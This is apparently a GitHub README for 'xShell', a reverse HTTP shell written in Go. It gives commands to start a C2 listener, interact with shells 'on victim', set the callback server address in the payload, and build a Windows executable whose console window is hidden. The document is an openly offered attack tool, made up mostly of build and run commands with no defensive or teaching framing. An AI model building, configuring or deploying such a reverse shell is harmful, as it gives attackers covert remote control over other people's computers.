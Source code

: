 <div align="center">
  <h1>xShell</h1>
  <br/>
  <p><i>A simple reverse http shell written in golang</i></p>
  <br/>
</div>

# Usage

### Change listener port
In c2/httpC2.go:
```go
const Port = "80" // change port here
```

### Start listener
```sh
go run c2/httpC2.go
```
If you want to listener on port 80 or 443 you must use sudo:
```sh
sudo go run c2/httpC2.go
```

### Listener commands
```
shells - list all active shells
shell <shell_name> - interact with specifc shell
quit - quit shell (closes shell on victim)
exit - return to main menu (shell continues to run)
```

### Set call back host
In payload/xShell.go:
```go
const ServerAddr = "127.0.0.1:80" // change this to your servers IP/Host
```

### Build shell
```sh
GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui -o xShell.exe payload/xShell.go
```